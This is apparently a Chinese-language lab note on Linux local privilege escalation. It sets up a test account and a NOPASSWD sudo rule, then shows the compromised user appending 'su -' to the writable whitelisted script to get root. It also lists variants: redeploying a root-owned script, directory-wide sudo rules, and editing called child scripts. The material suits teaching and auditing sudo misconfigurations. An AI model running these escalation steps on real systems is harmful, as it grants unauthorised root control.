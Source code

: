 # 环境准备

root账户执行以下操作：

```shell
groupadd aplyc1a
useradd -d /home/aplyc1a -m aplyc1a -g aplyc1a -s /bin/bash -p 123456
mkdir -p ~aplyc1a/escal
chown aplyc1a:aplyc1a ~aplyc1a/escal
chmod a+x ~aplyc1a/escal
```

# 脚本配置

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/3.sh" >> /etc/sudoers
aplyc1a: echo '#!/bin/bash' >> /home/aplyc1a/escal/3.sh
aplyc1a: echo "ps aux" >> /home/aplyc1a/escal/3.sh
aplyc1a: chmod +x /home/aplyc1a/escal/3.sh
```

# 攻击实施

攻击者攻陷aplyc1a账户后，通过在配置了sudo白名单免密的脚本中夹杂私货达到提权的目的。

```shell
aplyc1a: echo 'whoami' >> /home/aplyc1a/escal/3.sh
aplyc1a: echo 'su -' >> /home/aplyc1a/escal/3.sh
aplyc1a: sudo /home/aplyc1a/escal/3.sh
```

# 其他

1.如果/home/aplyc1a/escal/3.sh属主属组为root，由于/home/aplyc1a/escal/目录有aplyc1a完全可控，仍可通过删掉重新部署的方式达到提权。

```shell
root:chown root:root /home/aplyc1a/escal/3.sh
```

2.如果对某个aplyc1a下的目录配置了sudo，那么可以在该目录下创建脚本，写入恶意提权命令，达到提权。

```shell
root: echo "aplyc1a ALL=(root) NOPASSWD:/home/aplyc1a/escal/" >> /etc/sudoers
```

3.如果有sudo权限的某脚本虽然不可控，但其内部调用的其他脚本aplyc1a可以修改它，则可以通过修改被调用的子脚本达到提权目的。





